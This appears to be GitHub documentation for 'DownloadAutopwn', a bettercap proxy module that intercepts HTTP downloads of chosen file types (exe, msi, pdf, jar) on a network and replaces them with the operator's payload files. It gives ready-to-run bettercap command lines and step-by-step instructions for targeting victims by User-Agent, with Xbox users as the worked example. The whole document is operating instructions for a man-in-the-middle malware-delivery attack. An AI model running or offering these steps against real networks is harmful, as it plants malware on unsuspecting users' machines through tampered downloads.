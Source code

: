 # DownloadAutopwn documentation

<br>

## Options

`--download-autopwn-extensions EXT1,EXT2`

`--download-autopwn-useragents AGENT1,AGENT2`

`--download-autopwn-path bettercap-proxy-modules/http/download_autopwn`

`--download-autopwn-port 8042`

**Example:**

```
bettercap --proxy-module bettercap-proxy-modules/http/download_autopwn.rb --download-autopwn-extensions exe,msi,pdf,psd,jar --download-autopwn-useragents windows,xbox --download-autopwn-path bettercap-proxy-modules/http/download_autopwn --download-autopwn-port 8043
```

<br><br>


## Adding User-Agents

The `--download-autopwn-useragents` option scans for names of folders in the path that you specified with `--download-autopwn-path`.

Let's say we want to add an option for xbox User-Agents.

First, we make a new folder called **xbox** in our `--download-autopwn-path` directory.


**1.** `mkdir bettercap-proxy-modules/http/download_autopwn/xbox`

Next, we save our User-Agent string(s) in a file called **user-agents.bettercap**.<br>These strings will detect requests coming from xbox users.

After a quick Google search we find this User-Agent string:

**Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; Trident/6.0; Xbox; Xbox One)**

Looks like this string will do the trick: `Xbox`

**2.** `echo "Xbox" > bettercap-proxy-modules/http/download_autopwn/xbox/user-agents.bettercap`

**3.** Move your payload files to the folder that you just made.

![screenshot from 2017-08-02 14-45-37](https://user-images.githubusercontent.com/29265684/28858081-62799b8c-7791-11e7-9e61-3136a3d1f7ef.png)

**4. Done.**

Test out your new User-Agent config using the following command:

```
bettercap --proxy-module bettercap-proxy-modules/http/download_autopwn.rb --download-autopwn-extensions exe,msi,pdf,psd,jar --download-autopwn-useragents xbox --download-autopwn-path bettercap-proxy-modules/http/download_autopwn
```
